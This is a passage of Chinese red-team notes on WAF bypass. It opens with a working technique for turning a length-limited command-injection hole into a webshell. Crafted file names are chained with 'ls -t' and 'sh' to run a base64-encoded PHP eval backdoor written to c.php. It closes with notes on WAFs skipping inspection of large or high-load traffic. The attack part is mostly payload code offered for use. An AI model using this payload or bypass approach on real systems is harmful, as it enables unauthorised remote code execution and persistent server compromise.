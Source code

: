 ```
w>AgZ\\
w>waH\\
w>PD9\\
w>o\ \\
w>ech\\
ls -t>ls
sh ls
```

- w 长度最短的命令
- ls -t 以创建时间来列出当前目录下所有文件
- 文件列表以[ [ 换 行符] ]分割每个文件
- 引入 `\` 转义ls时的换行
- 换行不影响命令执行
- 成功构造任意命令执行，写入Webshell
```bash
ls -t
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7 | base64 -d>c.php
```

`来自代码审计知识星球分享`

---

## 来源

![image](../../../../assets/img/安全/笔记/RedTeam/安防设备总结/7.jpg)

---

## 性能角度

**性能检测**

WAF 在设计的时候都会考虑到性能问题，例如如果是基于数据包的话会考虑检测数据包的包长，如果是基于数据流的话就会考虑检测一条数据流的多少个字节。一般这类算检测的性能，同时为了保证 WAF 的正常运行，往往还会做一个 bypass 设计，在性能如 cpu 高于 80% 或则内存使用率高于如 80% 是时候，会做检测 bypass，以保证设备的正常运行。

现在问题就是检测多长呢？例如我用 HTTP POST 上传一个 2G 的文件，明显不可能 2G 全做检测不但耗 CPU，同时也会耗内存。因此在设计 WAF 的时候可能就会设计一个默认值，有可能是默认多少个字节的流大小，可能是多少个数据包。
